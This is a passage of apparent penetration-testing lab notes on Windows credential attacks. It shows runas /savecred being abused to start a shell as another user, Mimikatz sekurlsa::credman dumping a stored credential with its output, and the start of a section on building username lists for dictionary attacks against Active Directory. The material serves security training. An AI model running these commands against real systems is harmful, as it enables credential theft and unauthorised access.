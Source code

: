```bash
C:\Users\sam>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

### Extracting credentials with Mimikatz

```bash
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

## Attacking Active Directory and NTDS.dit

### Dictionary attacks against AD accounts using NetExec

Automated list generator such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats.

#### Creating a custom list of usernames

```bash
./username-anarchy -i /home/sam/usernames.txt
```
